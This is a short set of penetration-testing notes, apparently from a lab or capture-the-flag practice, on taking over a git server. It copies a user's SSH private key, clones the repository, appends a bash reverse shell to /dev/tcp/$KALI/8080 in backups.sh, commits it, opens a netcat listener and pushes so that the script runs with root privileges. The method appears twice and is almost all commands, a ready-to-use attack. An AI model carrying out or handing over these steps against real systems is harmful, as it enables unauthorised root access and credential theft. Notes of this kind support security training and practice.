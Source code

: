 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Git user exists

A git user appears in the /home directory.

![[Pasted image 20220319230833.png]]

Let's copy the .ssh/id_rsa file to kali, then use it to ssh in.

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh git@$TARGET -i id_rsa -p 22
```

Now that we have confirmed this works, we can use GIT SSH to clone the repository down to kali.

```bash - kali
GIT_SSH_COMMAND='ssh -i id_rsa -p 22' git clone git@$TARGET:/git-server
```

![[Pasted image 20221110090941.png]]

```bash - kali
cd git-server
```

Configure our Git identity.
```bash - kali
git config --global user.name "kali"
```

```bash - kali
git config --global user.email "kali@kali.(none)"
```

Echo in our reverse shell.
```bash - kali
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - kali
chmod +x backups.sh
```

Now we add and commit changes.
```bash - kali
git add -A
```

```bash - kali
git commit -m "pwn"
```

![[Pasted image 20221110091030.png]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - kali
GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
```

![[Pasted image 20220319232925.png]]

#### Have commit privs

![[Pasted image 20220319230106.png]]

```bash - kali
git clone file://git-server
```

```bash - kali
ls -la git-server
```

```bash - kali
cd git-server
```

```bash - kali
git log
```

```bash - kali
cat backup.sh
```

```bash - kali
git config --global user.name "$USER"
```

>git config --global user.name "hacker"

```bash - kali
git config --global user.email "$USER@$HOSTNAME.(none)"
```

>git config --global user.email "hacker@targetbox1.(none)"

Run a test command for root execution.
```bash - kali
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - kali
chmod +x backups.sh 
```

```bash - kali
git add -A
```

```bash - kali
git commit -m "pwn"
```

If this method fails, try [[13._Git Server#Git user exists]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - target
git push origin master
```
